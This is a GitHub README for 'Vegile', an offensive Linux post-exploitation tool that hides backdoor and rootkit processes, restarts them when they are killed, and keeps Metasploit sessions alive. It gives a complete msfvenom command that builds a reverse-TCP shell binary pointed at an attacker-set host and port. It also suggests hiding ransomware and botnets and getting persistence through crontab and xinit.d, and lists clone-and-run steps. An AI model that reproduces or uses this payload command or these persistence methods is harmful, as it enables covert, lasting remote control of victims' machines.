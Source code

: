 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniques in linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.


<img src="https://user-images.githubusercontent.com/17976841/34869598-fd7cf00e-f7b9-11e7-950e-a4cb61364c03.png" ></img>

### Donate
- If this project is very helpful to your penetration testing and u want to support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)



## :book: How it works

This tool will set up your ***backdoor/rootkits***
when backdoor is already setup it will be ***hidden*** your specific process,***unlimited*** your ***session*** in metasploit and ***transparent***. Even when it is **killed**, it will **re-run again**. There will always be a procces which will **run** another process, so we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- Right now I just tested backdoor with msfvenom command using reverse_shell and my manual backdoor for linux [ **it works** ] or you can use thefatrat for to help you create a simple backdoor
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 
- For get persistence you can use **crontab and xinit.d** into your backdoor  
- this is just a simple algorithm how we can maintain our sessions and backdoor/rootkits , **you can explore this**



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 

## Demo Video

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897525-f91afc1a-f820-11e7-9f85-bb0a5f00b4e3.JPG)](https://www.youtube.com/watch?v=oYyH1G3Lsvo "Vegile Demo ")

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897524-f887a258-f820-11e7-9ceb-a39da5be6fdf.JPG)](https://www.youtube.com/watch?v=imlh8l5w56k "Vegile Demo ")

## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- Bash.ID , WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia , Depok Cyber Security and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- gianlucaborello to give a reference and some idea [ https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/ ] 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however, any public releases utilizing this code must be approved by writen this tool ( Edo maland ).***
